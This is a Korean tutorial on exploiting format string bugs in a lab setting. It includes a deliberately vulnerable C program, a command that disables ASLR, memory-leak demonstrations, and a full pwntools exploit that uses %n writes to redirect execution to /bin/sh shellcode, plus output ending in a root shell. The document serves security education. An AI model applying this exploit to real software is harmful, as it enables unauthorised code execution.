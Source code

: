 ## **Concept**

Format String은 형태를 지정해주는 문자열을 의미한다.  
형식지정자를 사용하지 않고 바로 printf() 함수에 인자를 입력받을 경우 발생하는 취약점이다.

## **Proof of Concept**

고정된 Stack 영역을 사용하기 위해 randomize_va_space의 값을 0으로 변경한다.

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

```c
// Vuln Code
// gcc fmt.c -m32 -fno-stack-protector -z execstack -no-pie -o fmt
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char* argv[]){
    char buf[1024];
    printf("&buf: %p\n",&buf);
    gets(buf);
    printf(buf);
    printf("n");
    return 0;
}
```

형식지정자 입력 시 &buf부터 차례로 Memory Leak이 발생한다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
%08x.%08x.%08x.
ffffd150.001ad23c.001ae23c.
```

Memory Leak을 하다보면 buf의 값을 확인할 수 있다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
AAAA.0x%08x.0x%08x.0x%08x.0x%08x
AAAA.0xffffd150.0x001ad23c.0x001ae23c.0x41414141
```

처음에 넣은 AAAA(4Byte)가 4번째에에 출력되고 있다. 즉 네번째에 들어가는 포맷스트링은 처음 입력한 AAAA(4Byte)를 가리키는 것을 알 수 있다.  

따라서 "Ret Addr" + "%x%x%x" + "%n" Payload를 통해 원하는 메모리 주소에 원하는 값으로 변조할 수 있다.  

먼저 환경변수에 x86 EggShell을 삽입 후 출력되는 Stack Address를 통해 Return Address와 EggShell Address를 계산한다.

```
gdb-peda$ p 0xffffd4ac-0xffffd090 (Return Address - Stack)
$1 = 0x41c
gdb-peda$ p 0xffffd6fc-0xffffd090 (EggShell Address - Stack)
$3 = 0x66c
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *
import os

# set eggshell
os.environ['eggshell'] = "x90"*100+"xebx0bx31xc0x31xd2x31xc9x5bxb0x0bxcdx80xe8xf0xffxffxff/bin/sh"

binary = ELF('./fmt')
p = process(binary.path)
stack_addr = int(p.recvline().split(' ')[1],16)
log.info('stack addr: '+hex(stack_addr))

ret_addr = stack_addr + 0x41c
eggshell_addr = stack_addr + 0x66c

log.info('ret addr: '+str(hex(ret_addr)))
log.info('eggshell addr: '+str(hex(eggshell_addr)))

eggshell_high = int("0x"+ str(hex(eggshell_addr))[2:6],16)
eggshell_low = int("0x"+str(hex(eggshell_addr))[6:10],16)

log.info("eggshell high: "+str(hex(eggshell_high)))
log.info("eggshell low: "+str(hex(eggshell_low)))

first_n = eggshell_low -16 -12
second_n = eggshell_high - 16 - 12 - first_n

payload = ""
payload += p32(ret_addr)
payload += "AAAA"
payload += p32(ret_addr+2)
payload += "%8x"*2
payload += "%"+str(first_n)+"c"+"%n"
payload += "%"+str(second_n)+"c"+"%n"

p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fmt# python exploit.py 
[*] '/root/pwnable/fmt/fmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/root/pwnable/fmt/fmt': pid 5036
[*] stack addr: 0xffffd0a0
[*] ret addr: 0xffffd4bc
[*] eggshell addr: 0xffffd70c
[*] eggshell high: 0xffff
[*] eggshell low: 0xd70c
[*] Switching to interactive mode
$ 
xbcտxffAAAAxbeտxffffffd0a0  1ad23c 
...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/fmt
```